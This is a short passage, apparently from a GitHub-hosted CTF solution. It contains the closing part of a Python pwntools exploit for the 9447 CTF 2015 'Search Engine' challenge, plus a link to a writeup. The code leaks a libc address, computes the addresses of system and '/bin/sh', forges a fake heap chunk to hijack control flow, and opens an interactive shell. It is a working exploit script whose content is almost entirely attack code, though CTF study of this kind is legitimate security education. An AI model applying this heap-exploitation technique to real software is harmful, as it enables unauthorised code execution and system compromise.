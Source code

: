 ```python
    libc_leak = leak_libc()
    libc_base = libc_leak - puts_offset
    system_addr = libc_base + system_offset
    binsh_addr = libc_base + binsh_offset

    log.info('libc leak: %s' % hex(libc_leak))
    log.info('libc_base: %s' % hex(libc_base))
    log.info('system addr: %s' % hex(system_addr))
    log.info('binsh addr: %s' % hex(binsh_addr))

    make_cycle()
    make_fake_chunk(stack_addr)
    allocate_fake_chunk(binsh_addr, system_addr)

    p.interactive()

if __name__ == '__main__':
    main()
```

**Reference**

- [9447 CTF 2015: Search Engine Writeup](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)

